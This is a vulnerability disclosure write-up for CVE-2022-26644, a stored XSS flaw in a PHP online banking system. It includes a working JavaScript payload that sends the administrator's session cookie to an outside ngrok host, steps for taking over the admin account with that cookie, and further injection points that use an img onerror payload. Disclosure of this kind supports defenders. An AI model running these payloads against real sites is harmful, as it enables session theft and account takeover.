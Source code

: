 # Tittle: Online Banking System Stored XSS

# Author: (Erik451)

# Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

# Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)

# Version: OBS 1.0

# CVE: CVE-2022-26644
-  Description: A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

#### Steps to reproduce:
-   1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
	-   2- Edite your profile name and paste the payload
	- 3- Using a ngrok http server to get the request with the administrator cookie
	- 4- If the admin goes to the "manage accounts"  the payload will be execute

Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![[ngrokclient.png]]

**Admin Session**
The administrator goes to the manage accounts menu and will be execute the payload in background.
Now we have the admin cookie
![[admincookie.png]]

Edit our cookie with the new admin cookie, reload admin page and now we are administrators.
![[loginasadmin.png]]

---

#### Other XSS
Payload used: `<img src="x" onerror=prompt(1)>`
**Announcements Tittle**
-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
    
    

		![[XSSannouncement2.png]]

**Accounts Name**
-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	
 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle of the app so the javascript will be executed.
 ![[XSSsysinfo.png]]
